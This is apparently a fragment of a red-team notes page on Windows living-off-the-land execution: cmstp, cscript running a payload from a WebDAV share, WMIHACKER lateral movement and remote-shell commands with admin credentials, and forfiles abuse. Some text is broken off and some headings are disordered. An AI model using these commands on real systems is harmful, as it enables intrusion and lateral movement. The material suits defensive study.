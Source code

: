 ```bash
cmstp.exe /s .\f.inf
```

##### SCT files

#### Signed Script Proxy Execution

Windows Script Host is an command line scripting engine present on many Windows System.
Windows Script Host can call Windows COM components unlocking us a vast array of potential attack vectors.

Windows Script Host can be either run:

- In protection-mode, using the wscript.exe

WSH scripts are written in either JScript or VBScript as uncompiled text files with extensions of “.js” or “.vbs” respectively.

We may need to 

[cscript]() starts a script to run in a command-line environment.

cscript //E:jscript \\webdavserver\folder\payload.txt

With cscript we can use [WMIHACKER](https://github.com/360-Linton-Lab/WMIHACKER) to perform lateral movement command execution

```bash
# Command: The result is displayed after the command is executed
cscript WMIHACKER_0.6.vbs /cmd IP_DEST ADMIN "PASSWORD" "systeminfo" 1
# Command: No results are displayed after the command is executed
cscript WMIHACKER_0.6.vbs /cmd IP_DEST ADMIN "PASSWORD" "systeminfo > c:\1.txt" 0
# Shell Mode
cscript WMIHACKER_0.6.vbs /shell IP_DEST ADMIN "PASSWORD"
# File upload
cscript wmihacker_0.4.vbe /upload IP_DEST ADMIN "PASSWORD" SOURCE_FILE DESTINATION_FOLDER
# File download
cscript wmihacker_0.4.vbe /download IP_DEST ADMIN "PASSWORD" SOURCE_FOLDER FILE_TO_RETREIVE
```

wscript

<https://www.sans.org/reading-room/whitepapers/testing/windows-script-host-hack-windows-33583>

#### AppLocker

<https://lolbas-project.github.io/>

##### forfiles

The [forfiles](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/forfiles) is a command utility which can select multiple files and run a command on them.
It is typically used in batch jobs but it could be abused to execute an arbitrary command or an executable.

- **/P**: Specifies the path from which to start the search.
- **/M**: Searches files according to the specified search mask.
- **/C**: Runs the specified command on each file.

